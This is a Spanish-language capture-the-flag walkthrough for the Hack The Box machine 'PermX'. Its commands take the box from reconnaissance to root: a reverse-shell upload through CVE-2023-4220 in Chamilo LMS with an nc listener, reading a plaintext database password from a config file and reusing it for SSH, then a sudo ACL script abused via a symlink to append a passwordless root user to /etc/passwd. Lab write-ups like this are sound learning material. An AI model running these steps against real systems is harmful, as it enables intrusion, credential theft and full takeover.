 # Reconocimiento
sudo nmap -sS -sV -A --min-rate 5000 --open -vvv -Pn 10.10.11.23

# Resultado

| port | state | service | reason | version |
|------|-------|---------|--------|---------|
| 22 | open | ssh |  syn-ack | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) |
| 80 | open | http |  syn-ack | Apache httpd 2.4.52 |

- Copiamos la ip en la url de nuestro navegador.
- revisamos la web cargada.
- encontramos la url (http://permx.htb/).

# Copiamos la url en el archivo
- cd nano /etc/hosts
- ip 10.10.11.23 http://permx.htb/
- guardamos con ctrl + s
- ctrl + x

# Realizamos un escaneo con
> whatweb -v -a 3 http://permx.htb/ 

# Encontramos

| Resultado |
|-----------|
| Summary   : Apache[2.4.52], |
|  Bootstrap[5.0.0] |
| Email[permx@htb.com] |
| HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)] |
| JQuery[3.4.1] |

# Ataque de directorio con Gobuster

| ataque | estado |
|--------|--------|
| sudo gobuster vhost -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://permx.htb --append-domain | grep -v "Status: 302" | exitoso |

| resultado |
|-----------|
| lms.permx.htb |

# Reconocimiento de la nueva url encontrada con whatweb

|Ataque|
|------|
| whatweb -v -a 3 http://lms.permx.htb/index.php |


|resultados|
|----------|
| Apache |
| Version      : 2.4.52 (from HTTP Server Header) Google Dorks: (3)  
| Website     : http://httpd.apache.org/ |

# CVE

- CVE-2023-4220

- Investigamos en internet la revershell que podriamos usar con este CVE
- Descargamos la shell
- La enviamos al servidor 

> curl -F 'bigUploadFile=@sheel.php' 'http://lms.permx.htb//main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 

- Nos colocamos en escucha

| nc |
|----|
| sudo nc -lvnp 9001 |

- Ejecutamos la Revershell

> curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/sheel.php'

- Ingresamos al servidor y importamos una libreria de python para obtener una bash

| importamos bash |
|-----------------|
| python3 -c 'import pty;pty.spawn("/bin/bash")' |


- Buscamos la existencia de otros usuarios

> cat /etc/passwd | grep -i sh$

|resultados|
|----------|
| root:x:0:0:root:/root:/bin/bash|
|mtz:x:1000:1000:mtz:/home/mtz:/bin/bash |

- Realizamos una busqueda por ficheros

> find ./ | grep “configuration.php” 2>dev/null 


- Dentro de la busqueda encontramos la siguiente linea 


> cat ./var/www/chamilo/app/config/configuration.php 


- Esto nos da resultados de la configuracion de la base de datos
- 
> Database connection settings.
> $_configuration['db_host'] = 'localhost';
> $_configuration['db_port'] = '3306';
> $_configuration['main_database'] = 'chamilo';
> $_configuration['db_user'] = 'chamilo';
> $_configuration['db_password'] = '03F6lY3uXAP2bkW8';
> Enable access to database management for platform admins.
> $_configuration['db_manager_enabled'] = false;

- Nos conectamos por ssh con ese usuario de la db

| ruta | passwd |
| ssh mtz@permx.htb   | 03F6lY3uXAP2bkW8 |


> flag 1 encontrada dentro de user.txt

# Proceso de escalada de privilegios

- Ejecutamos  
> sudo -l 
- Para saber que permisos tenemos para ejecutar como este usuario
- Vemos un script llamado
> acl.sh 
- Este esript nos permite modificar los permisos dentro del path de /home/mtz
- con el comando
> ln -s /etc/passwd /home/mtz/test 
- creamos un link entre 
> /etc/passwd 
- y 
> /home/mtz/test 
- lo que nos va a permitir tener una comunicacion directa con passwd a traves de 
> /home/mtz/test 
- para que tengamos los permisos tenemos que ejecutar el siguiente comando
> sudo /opt/acl.sh mtz rw /home/mtz/test 
- este comando lo que hace es que a traves de 
> sudo /opt/acl.sh  
- le asigna a 
>  mtz 
- los permisos de escritura y lectura
> rw 
- al archivo que asignamos con el link  
> /home/mtz/test 
- anterior para poder tener acceso y con 
> echo "root3::0:0:root3:/root:/bin/bash" >> ./test
- creamos un root llamado root3 y les damos los mismos permisos de root ya con esto solo ejecutamos 
> su root3 
- y tendremos los privilegios de root 
- realizamos un cd /
- luego cd root
- y encontramos la flag dentro de root.txt

# Fin
